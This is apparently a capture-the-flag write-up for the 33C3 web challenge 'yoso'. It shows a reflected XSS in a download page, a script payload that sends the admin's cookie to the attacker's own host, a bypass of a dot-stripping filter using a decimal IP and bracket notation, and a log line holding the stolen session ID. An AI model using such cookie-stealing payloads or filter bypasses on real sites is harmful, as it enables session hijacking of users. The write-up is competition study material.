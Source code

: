 #yoso(web, 250, 38 solves)
> You only live once, so why search twice?

> (admins love to search for flags btw)

![scr1](scr1.png)

We are able to send a link to admin, which he then visits. Our goal is to download admin's bookmarks.

After some investigation, we found a reflected xss at `http://78.46.224.80:1337/download.php?zip=<script>alert("hello world")</script>`

So all we have to do now is either steal the admins'c cookie or get the zip with a ajax/xmlhttp request and then send a request to `ourdomain.com/+data`. We'll go with the first option, as it's a lot easier. 

Payload:

``` javascript

<script> window.location = "http://nazywam.host/itWorks!"+document.cookie </script>

```

Unfortunately, the zip parameter is filtered, all dots are removed. So we have to find a way to bypass it.


 * `nazywam.host` can be easily changed into a decimal ip, `1558071511`
 * `window.location` and `document.cookie` can be written as `window["location"]` and `document["cookie"]`
 * `string + string` -> `string["concat"](string)`

Final payload:

``` javascript

<script>window["location"] = "http://1558071511/itWorks!"["concat"](document["cookie"]) </script>

````

This allows us to get the cookie 

```
78.46.224.80 - - [29/Dec/2016:11:46:48 +0100] "GET /itWorks!PHPSESSID=ol8gur9chbfq0g0ufnm6h8vrc1 HTTP/1.1" 404 143 "http://78.46.224.80:1337/download.php?zip=%3Cscript%3Ewindow[%22location%22]%20=%20%22http://1558071511/itWorks!%22[%22concat%22](document[%22cookie%22])%20%3C/script%3E" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1"
```

And finally, the flag: `33C3_lol_wHo_needs_scr1pts_anyway`